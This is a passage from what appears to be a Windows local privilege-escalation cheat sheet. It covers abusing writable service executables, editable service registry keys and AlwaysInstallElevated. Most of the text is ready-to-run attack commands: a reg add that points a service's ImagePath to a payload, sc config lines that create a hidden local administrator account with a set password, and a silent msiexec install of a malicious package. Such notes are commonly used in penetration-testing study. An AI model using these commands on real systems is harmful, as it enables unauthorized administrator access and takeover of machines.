 If service exe is writable to everyone, low privilege user can replace the exe with some other binary:
```
icacls example.exe
```

```
F = Full Control
CI = Container Inherit - This flag indicates that subordinate containers will inherit this ACE.
OI = Object Inherit - This flag indicates that subordinate files will inherit the ACE.
```

## Service Permissions

- `exploit/windows/local/service_permissions`

### Approach 1 - Check permissions of service
```
subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Vulnerable Service" /display
```
If service is editable, change the `ImagePath` to another exe.
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Vulnerable Service" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\testuser\AppData\Local\Temp\Payload.exe" /f
```

or create a local admin with:
```
sc config "Vulnerable Service" binpath="net user eviladmin P4ssw0rd@ /add
sc config "Vulnerable Service" binpath="net localgroup Administrators eviladmin /add"
```

### Approach 2 - Check services a given user can edit
```
accesschk.exe -uwcqv "testuser" *
```

## AlwaysInstallElevated
- `exploit/windows/local/always_install_elevated`

```
[HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer]
"AlwaysInstallElevated"=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
"AlwaysInstallElevated"=dword:00000001
```
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Installing MSI:
```
msiexec /quiet /qn /i malicious.msi
```

